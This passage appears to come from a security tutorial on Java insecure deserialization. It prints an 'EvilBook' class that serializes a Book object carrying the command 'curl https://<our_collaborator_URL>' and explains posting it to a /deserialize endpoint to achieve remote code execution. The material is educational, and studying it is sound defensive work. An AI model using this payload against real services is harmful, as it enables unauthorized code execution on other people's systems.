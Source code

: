As an attacker, to exploit it, you would create a malicious object such as:

```java
public class EvilBook {

  public static void main(String[] args) {
    Book book = new Book("someTitle", "curl https://<our_collaborator_URL>");
    String bookSerialized = serializeBook(book);

    FileWriter fileWriter = new FileWriter("naughty_Book.ser");
    PrintWriter printWriter = new PrintWriter(fileWriter);
    printWriter.print(bookSerialized);
    printWriter.close();
  }

  /**
   * Serializes a Book object and returns it as base64 string
   */
  public static String serializeBook(Object myBook) {
    ByteArrayOutputStream baos = null;
    
    baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    oos.writeObject(myBook);
    oos.close();

    return Base64.getEncoder().encodeToString(baos.toByteArray());
  }
}
```

The `serializeBook()` takes in a book object again, serializes it and encodes it to a base64 string. The `main()` creates a book object that uses the new `cmd` property added earlier. If the command would execute, it would fire `curl https://collaborator` which would send a request to the server.

The only other things that happens is a `book` object is created with the `cmd`, serialize it to a base64 string and store it in a string in a file called `naughty_Book.ser`. 

After compiling and running it, it outputs `naughty_Book.ser`. Then, you can simply send the content of it to the `/deserialize` endpoint of the REST controller which would deserialize the naughty_Book, and automatically call the custom `readObject()` method.

Finally, `execute(this.cmd)` would execute the curl command, achieving RCE.

>[!info]
>Some useful blogs include [Synacktiv](https://www.synacktiv.com/en/publications/finding-gadgets-like-its-2015-part-1).

